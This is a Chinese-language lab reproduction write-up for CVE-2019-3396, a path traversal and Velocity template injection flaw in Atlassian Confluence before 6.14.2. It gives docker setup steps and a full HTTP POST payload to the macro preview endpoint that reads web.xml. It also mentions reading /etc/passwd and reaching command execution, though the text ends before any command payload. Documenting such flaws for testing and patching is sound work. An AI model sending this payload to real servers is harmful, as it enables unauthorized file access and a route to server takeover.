

# CVE-2019-3396

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Atlassian Confluence 路径遍历和命令执行漏洞

## 0x01 产品简介

Confluence 是由澳大利亚软件公司 Atlassian 开发的基于 Web 的企业 Wiki。

在 Atlassian Confluence 版本 6.14.2 之前存在一个未经授权的目录遍历漏洞，攻击者可以使用 Velocity 模板注入读取任意文件或执行任意命令。

## 0x02 影响范围

```
Atlassian Confluence 版本 6.14.2 之前
```

## 0x03 环境搭建

通过执行以下命令启动 Confluence Server 6.10.2。

```
docker compose up -d
```

环境启动后，访问 [http://your-ip:8090](http://your-ip:8090/)，您将看到安装指南，选择“试用安装”，然后会要求您填写许可证密钥。您应该向 Atlassian 申请 Confluence Server 测试证书：



然后只需单击“下一步”进行安装。小内存VPS这一步可能无法安装或需要很长时间（建议使用4G以上内存的机器进行安装和测试），请耐心等待。

如果系统提示填写集群节点，可以使用 /home/confluence 填充路径。


可能会要求您填写数据库账号密码，选择postgres数据库，地址为db，账号密码为postgres：


## 0x04 漏洞复现

过发送以下数据包来读取文件web.xml。

```
POST /rest/tinymce/1/macro/preview HTTP/1.1
Host: localhost:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Referer: http://localhost:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&
Content-Type: application/json; charset=utf-8
Content-Length: 176

{"contentId": "786458", "macro":{"name": "widget", "body":"", "params":{"url": "https://www.viddler.com/v/23464dc6", "width": "1000"," height": "1000","_template":". /web.xml"}}}
```


在 6.12 之前的 Confluence 没有限制文件读取的协议和路径，我们可以使用 file:///etc/passwd 来读取文件，或者 https://... 来加载远程文件。

如果文件是 Velocity 模板，我们可以通过模板注入 （SSTI） 执行任意命令：

